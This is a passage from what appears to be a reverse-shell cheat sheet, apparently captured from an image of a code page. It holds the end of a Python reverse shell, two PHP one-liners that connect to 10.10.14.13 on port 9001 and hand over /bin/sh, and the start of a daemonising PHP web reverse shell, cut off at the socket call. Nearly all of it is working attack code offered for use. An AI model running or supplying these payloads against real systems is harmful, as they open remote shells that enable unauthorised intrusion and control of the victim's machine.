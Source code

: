 ```python
p = subprocess.Popen(["/bin/sh"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
s2p_thread = threading.Thread(target=s2p, args=[s, p])
p2s_thread = threading.Thread(target=p2s, args=[s, p])
s2p_thread.daemon = True
p2s_thread.daemon = True
s2p_thread.start()
p2s_thread.start()
try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

---

## PHP Reverse Shells

### Basic PHP
```php
# Simple PHP reverse shell
php -r '$sock=fsockopen("10.10.14.13",9001);exec("/bin/sh -i <&3 >&3 2>&3");'

# PHP with error handling
php -r '$sock=fsockopen("10.10.14.13",9001);if($sock){$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);}'
```

### Web-based PHP Shell
```php
<?php
set_time_limit(0);
$ip = '10.10.14.13';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    if ($pid == -1) {
        printit("ERROR: Can't fork");
        exit(1);
    }
    if ($pid) {
        exit(0);
    }
    if (posix_setsid() == -1) {
        printit("Error: Can't setsid()");
        exit(1);
    }
    $daemon = 1;
} else {
    printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```